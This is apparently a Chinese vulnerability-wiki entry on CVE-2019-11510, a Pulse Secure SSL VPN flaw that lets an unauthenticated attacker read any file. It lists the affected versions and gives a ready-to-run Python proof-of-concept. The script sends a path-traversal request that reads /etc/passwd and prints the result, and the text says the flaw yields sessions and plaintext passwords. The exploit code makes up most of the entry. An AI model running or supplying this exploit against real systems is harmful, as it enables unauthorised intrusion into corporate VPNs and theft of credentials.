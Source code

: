 （CVE-2019-11510）Pulse Secure SSL VPN 任意文件读取
===================================================

一、漏洞简介
------------

Pulse Secure Pulse Connect Secure（又名 PCS，前称 Juniper Junos
Pulse）是美国 Pulse Secure 公司的一套 SSL VPN 解决方案。爆发的
CVE-2019-11510
该漏洞是由于所引入的一项通过浏览器访问其他端口的新功能缺乏安全限制所导致的，任意攻击者都可在未经身份验证的情况下利用该漏洞，读取系统敏感文件，获取
session、明文密码等敏感信息，从而非法入侵并操控
VPN，从而进一步威胁企业内网服务。

二、漏洞影响
------------

Pulse Secure PCS 9.0RX

Pulse Secure PCS 8.3RX

Pulse Secure PCS 8.2RX

Pulse Secure PCS 8.1R15.1

三、复现过程
------------

### poc

    Pcs_Ssl_Vpn_CVE_2019_11510@Coco413.py

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-11510)PulseSecureSSLVPN任意文件读取/media/rId25.png)

    # -*- coding:utf-8 -*-
    # !/usr/bin/env python

    import sys
    import urlparse
    import requests
    import warnings
    import traceback

    reload(sys)
    sys.setdefaultencoding('utf-8')
    requests.packages.urllib3.disable_warnings()
    warnings.filterwarnings("ignore")

    def CVE_2019_11510(base_url):
        try:
            payloads, keywords = "/dana-na/../dana/html5acc/guacamole/../../../../../../../etc/passwd?/dana/html5acc/guacamole/", "root:x"
            r = requests.get(base_url + payloads, verify=False)
            r.close()
            if keywords in r.text:
                print "[✓] Found CVE-2019-11510 Vuln address(curl --path-as-is -s -k <target>):\n{}\n{}".format(
                    base_url + payloads, r.content)
            else:
                print "[x] Not Found Vuln!"
        except requests.exceptions.ConnectionError:
            pass
        except requests.ReadTimeout:
            pass
        except:
            traceback.print_exc()

    if __name__ == '__main__':
        if len(sys.argv) == 1:
            print '[+] Tip: python Pcs_Ssl_Vpn_CVE_2019_11510@Coco413.py <url>'
            sys.exit(0)
        url = sys.argv[1]
        CVE_2019_11510(urlparse.urlparse(url).scheme + "://" + urlparse.urlparse(url).hostname)
